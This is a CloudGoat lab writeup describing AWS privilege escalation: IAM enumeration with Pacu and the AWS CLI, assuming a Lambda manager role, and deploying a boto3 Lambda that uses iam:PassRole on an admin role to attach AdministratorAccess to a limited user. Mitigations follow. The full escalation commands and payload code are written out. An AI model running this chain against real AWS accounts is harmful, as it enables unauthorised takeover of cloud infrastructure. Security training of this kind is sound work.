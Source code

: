# 🛡️ CloudGoat Lambda Privilege Escalation Writeup

This writeup details a privilege escalation scenario in an AWS environment simulated using [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat). The scenario involves escalating IAM permissions via a misconfigured Lambda management role.

---

## 🔐 Initial Access

Using the credentials provided from CloudGoat:

```
AWS Access Key ID:     AKIA****************  
AWS Secret Access Key: ***************************************
```

---

## 🔍 IAM Enumeration (PACU)

Using [Pacu](https://github.com/RhinoSecurityLabs/pacu), we first enumerate the account permissions:

```bash
run iam__enum_permissions
```

Key findings:
- **User:** `chris-cgid61ul1qxgdg`
- **Account:** `727671863602`
- **ARN:** `arn:aws:iam::727671863602:user/chris-cgid61ul1qxgdg`

### Policies and Roles Discovered:

- **Roles:**
  - `cg-debug-role-cgid61ul1qxgdg`
  - `cg-lambdaManager-role-cgid61ul1qxgdg`
- **Policies:**
  - `cg-chris-policy-cgid61ul1qxgdg` (attached to `chris`)
  - `cg-lambdaManager-policy-cgid61ul1qxgdg`

These policies include permissions such as:

```json
{
  "Action": [
    "sts:AssumeRole",
    "iam:List*",
    "iam:Get*"
  ],
  "Effect": "Allow",
  "Resource": "*"
}
```

---

## 🧑‍💻 CLI Enumeration Steps

```bash
aws sts get-caller-identity --profile lambda_priv
aws iam list-user-policies --user-name chris-cgid61ul1qxgdg --profile lambda_priv
aws iam list-attached-user-policies --user-name chris-cgid61ul1qxgdg --profile lambda_priv
aws iam get-policy-version --policy-arn arn:aws:iam::727671863602:policy/cg-chris-policy-cgid61ul1qxgdg --version-id v1 --profile lambda_priv
```

Permissions granted allow:
- Role assumption
- Listing and reading IAM roles/policies

### Role Permissions Breakdown

**cg-lambdaManager-policy-cgid61ul1qxgdg**:
```json
{
  "Action": [
    "lambda:*",
    "iam:PassRole"
  ],
  "Effect": "Allow",
  "Resource": "*"
}
```

**cg-debug-role-cgid61ul1qxgdg**:
- Attached policy: `AdministratorAccess` 👑

---

## ⚔️ Attack Plan

1. **Assume** the `cg-lambdaManager-role-cgid61ul1qxgdg`
2. **Create** a Lambda function using `cg-debug-role-cgid61ul1qxgdg` (which has admin rights)
3. **Invoke** the Lambda to attach the `AdministratorAccess` policy to the `chris` user

---

## 📦 Privilege Escalation Execution

### Step 1: Assume Lambda Manager Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::727671863602:role/cg-lambdaManager-role-cgid61ul1qxgdg \
  --role-session-name lambdamanager \
  --profile lambda_priv
```

Configure a new AWS CLI profile with these temporary credentials.

---

### Step 2: Write the Lambda Payload

**lambda_function.py**:
```python
import boto3

def lambda_handler(event, context):
    iam = boto3.client('iam')
    target_user = 'chris-cgid61ul1qxgdg'
    policy_arn = 'arn:aws:iam::aws:policy/AdministratorAccess'

    response = iam.attach_user_policy(
        UserName=target_user,
        PolicyArn=policy_arn
    )

    return {
        'statusCode': 200,
        'body': f'Policy attached to {target_user}'
    }
```

```bash
zip lambda_function.py.zip lambda_function.py
```

---

### Step 3: Deploy the Lambda

```bash
aws lambda create-function \
  --function-name admin_function \
  --runtime python3.9 \
  --role arn:aws:iam::727671863602:role/cg-debug-role-cgid61ul1qxgdg \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://lambda_function.py.zip \
  --profile lambdamanager \
  --region us-east-1
```

---

### Step 4: Invoke the Function

```bash
aws lambda invoke \
  --function-name admin_function \
  --profile lambdamanager \
  --region us-east-1 \
  output.json
```

---

## ✅ Results

`AdministratorAccess` was successfully attached to the `chris` user. We now have full administrative privileges.

---

## 🔚 Summary

| Step | Description |
|------|-------------|
| 🧑 Access | Credentials obtained via CloudGoat |
| 🧭 Enumeration | IAM roles, users, and policies explored using Pacu and AWS CLI |
| 🪜 Escalation | Role assumed → Lambda created → Privileged function executed |
| 🛡️ Outcome | Full admin access via policy attachment |

---

## 📝 Mitigations

- Avoid attaching overly permissive policies like `iam:PassRole` to roles accessible by non-admin users.
- Audit role trust relationships regularly.
- Implement least privilege principles.
